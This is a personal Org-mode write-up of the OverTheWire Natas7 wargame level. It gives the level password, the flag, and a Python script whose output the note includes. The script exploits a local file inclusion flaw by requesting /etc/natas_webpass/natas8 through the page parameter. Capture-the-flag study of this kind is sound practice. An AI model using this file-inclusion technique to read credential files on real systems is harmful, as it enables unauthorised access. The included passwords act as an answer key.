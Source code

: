 :PROPERTIES:
:ID:       2f0c9708-04e6-4978-a6bd-5350e4f35804
:END:
#+title: Natas7
* Previous
[[id:340c47e7-79cb-4c63-b606-2d80357a56cc][Natas6]]

* Password
7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

* Flag
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

* Notes

In the source html :
#+begin_src html
<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
#+end_src

#+begin_src python :results output
#!/usr/bin/env python3

import requests
import re
from natas_pass import passwords

session = requests.Session()
username = "natas7"
password = passwords[username]

url = "http://{}.natas.labs.overthewire.org/".format(username)

response = requests.get(url +  "index.php?page=/etc/natas_webpass/natas8", auth=(username, password))

content = response.text
# print(content)

p = re.findall("([a-zA-Z0-9]{32})", content)

if p and p[0] == password:
    p.pop(0)

print(p[0])
#+end_src

#+RESULTS:
: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

* Next
[[id:04a1eb05-1de8-4629-9073-71aebd900829][Natas8]]
